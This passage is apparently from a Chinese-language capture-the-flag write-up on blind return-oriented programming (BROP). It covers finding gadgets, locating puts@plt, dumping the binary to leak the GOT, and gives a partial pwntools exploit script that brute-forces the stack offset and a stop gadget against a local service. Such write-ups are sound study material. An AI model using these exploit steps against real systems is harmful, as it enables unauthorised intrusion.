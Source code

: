 我们在获取到 `__libc_csu_init` 后，可以构建 `pop rdi` （csu_addr + 9）。

如果 `x64` 程序没有开启 `PIE`，在 0x400000 开始的地方为固定值 `\x7felf`。

在这我记录一下关于找 `puts plt` 地址的 payload

payload：Pop_rdi_gadget + 0x400000 + Probe gadget + Stop gadget

我可以通过得到的返回值是否为 `\x7felf` 来判断是否遇到 `puts` 或者 `printf`

write 和 puts 的原理类似，这里不做过多的赘述了。

##### get got

通过上面获取到的东西，我们可以开始进行 `dump` 这个 `elf` 文件的 .`text` 段的内容了，主要的目的是泄露 `got` 表。所以我们直接通过上一小节得到的 `put_plt` 为当前代码段的最大长度进行 `dump` 。

我们将 dump 下来的文件，通过 ida 打开（通过 binary），然后在 edit->segments->rebase program 将程序的基地址改为 `0x400000` ，然后找到上面 `plt` 的偏移量，然后按 `c` 进行将数据转为汇编，这样我们就得到了当前函数的 `got` 表地址。



### 漏洞利用

在上一小节中，我们了解到了 brop 的用法，在本题中，由于没有 开启 `PIE` ，也没有发现 `cannary` ，所以这里就不赘述了，直接放出 `poc` 。

`poc` :

```python
# -*- coding: utf-8 -*-
# !/usr/bin/python env
from pwn import *


def get_stack_offset():
    for length in range(200):
        exp_file = remote("127.0.0.1", 10000)
        exp_file.recvuntil("WelCome my friend,Do you know password?\n")
        exp_file.sendline("a"*length)
        try:
            exp_file.recvuntil("No password, no game", timeout=1)
            exp_file.close()
        except Exception as e:
            exp_file.close()
            print("stack_length: {length}".format(length=length-1))
            # exp_file.interactive() we can use the recv information to check the program cannary is on or off
            return length-1


def get_stop_gadget(stack_offset):
    start_addr = 0x400000
    for length in range(0x1000):
        exp_file = remote("127.0.0.1", 10000)
        exp_file.recvuntil("WelCome my friend,Do you know password?\n")
        exp_file.sendline("a"*stack_offset + p64(start_addr+length))
        print("[*] We try to test addr: {addr}".format(addr=hex(start_addr + length)))
        try:
            exp_file.recvuntil("WelCome my friend,Do you know password?\n", timeout=1)
            exp_file.sendline("test")
            exp_file.recvuntil("No password, no game", timeout=1)
            print("[+] We find a addr: {addr}".format(addr=hex(start_addr + length)))
            exp_file.close()
            return start_addr+length
        except Exception as e:
            exp_file.close()
            print("[-] We can't use addr: {addr}".format(addr=hex(start_addr + length)))


```